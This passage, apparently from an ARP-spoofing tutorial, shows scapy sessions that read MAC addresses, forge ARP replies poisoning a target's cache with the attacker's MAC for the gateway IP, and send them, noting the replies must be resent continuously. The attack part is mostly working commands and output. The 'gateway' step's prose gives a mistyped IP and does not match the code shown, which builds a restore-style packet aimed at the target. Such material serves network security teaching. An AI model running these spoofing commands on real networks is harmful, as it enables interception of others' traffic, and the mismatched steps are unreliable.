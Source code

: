 ```
```
```
>>> received[0][0][1].hwsrc                                                                                                                                           
'22:bf:ca:6f:90:e0'
>>>
```
Step 2: Sending false ARP response packets to both the target and the gateway.

The false ARP response to the target will contain the pdst= ‘192.168.43.63’ hwdst= ‘08:25:25:5c:9d:51' and psrc= ‘192.168.43.1’. By default, this packet would have the attacker’s MAC address. Thus when the target gets the packet it updates its ARP table with rogue MAC address associated with the gateway’s IP address. To ensure that our poisoning is not cured, we will have to continuously send the ARP responses, which will be done in the python script.

```
>>> arpspoofd=ARP(op=2, psrc="192.168.43.1", pdst="192.168.43.63", hwdst="08:25:25:5c:9d:51")  
>>> arpspoofd.show()                                                                                                                                                  
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 08:00:27:23:ff:90
  psrc= 192.168.43.1
  hwdst= 08:25:25:5c:9d:51
  pdst= 192.168.43.63

>>> 
```

```
>>> send(arpspoofd)                                                                                                                                                   
.
Sent 1 packets.
>>>
```
Similarly craft a packet for the gateway ( 192.165.43.1, 84:fd:d1:14:a6:9f ) by spoofing the psrc as “192.168.43.63”.

```
>>> restorepkt=ARP(op=2, psrc="192.168.43.1", hwsrc="84:fd:d1:14:a6:9f", pdst="192.168.43.63", hwdst="08:25:25:5c:9d:51")
>>> restorepkt.show()                                                                                                                                                 
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 84:fd:d1:14:a6:9f
  psrc= 192.168.43.1
  hwdst= 08:25:25:5c:9d:51
  pdst= 192.168.43.63

>>>
```
